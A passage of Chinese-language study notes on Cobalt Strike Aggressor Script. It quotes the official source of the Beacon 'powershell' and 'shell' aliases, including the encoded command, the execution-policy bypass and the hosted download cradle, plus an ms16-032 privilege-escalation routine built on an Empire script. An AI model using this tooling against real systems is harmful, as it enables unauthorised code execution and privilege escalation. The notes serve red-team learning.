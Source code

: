 > 官方文档这里是在讲解 beacon 中的 powershell命令是怎么来的，我不做翻译，但是吧官方为文档贴出来

```shell
# powershell 的编写源码

alias powershell {
	local('$args $cradle $runme $cmd');
	
	# $0 is the entire command with no parsing.
	$args   = substr($0, 11);
	
	# generate the download cradle (if one exists) for an imported PowerShell script
	$cradle = beacon_host_imported_script($1);
	
	# encode our download cradle AND cmdlet+args we want to run
	$runme  = base64_encode( str_encode($cradle . $args, "UTF-16LE") );
	
	# Build up our entire command line.
	$cmd    = " -nop -exec bypass -EncodedCommand \" $+ $runme $+ \"";
	
	# task Beacon to run all of this.
	btask($1, "Tasked beacon to run: $args", "T1086");
	beacon_execute_job($1, "powershell", $cmd, 1);
}
```

下面是 shell 的源码：

```shell
alias shell {
	local('$args');
	$args = substr($0, 6);
	btask($1, "Tasked beacon to run: $args (OPSEC)", "T1059");
	bsetenv!($1, "_", $args);
	beacon_execute_job($1, "%COMSPEC%", " /C %_%", 0);
}
```



## Privilege Escalation (Run a Command)

> 权限提升的脚本源码



官方的 ms16-032 权限提升写法

```shell
# Integrate ms16-032
# Sourced from Empire: https://github.com/EmpireProject/Empire/tree/master/data/module_source/privesc
sub ms16_032_elevator {
	local('$handle $script $oneliner');
	
	# acknowledge this command
	btask($1, "Tasked Beacon to execute $2 via ms16-032", "T1068");
	
	# read in the script
	$handle = openf(getFileProper(script_resource("modules"), "Invoke-MS16032.ps1"));
	$script = readb($handle, -1);
	closef($handle);
	
	# host the script in Beacon
	$oneliner = beacon_host_script($1, $script);
	
	# run the specified command via this exploit.
	bpowerpick!($1, "Invoke-MS16032 -Command \" $+ $2 $+ \"", $oneliner);
```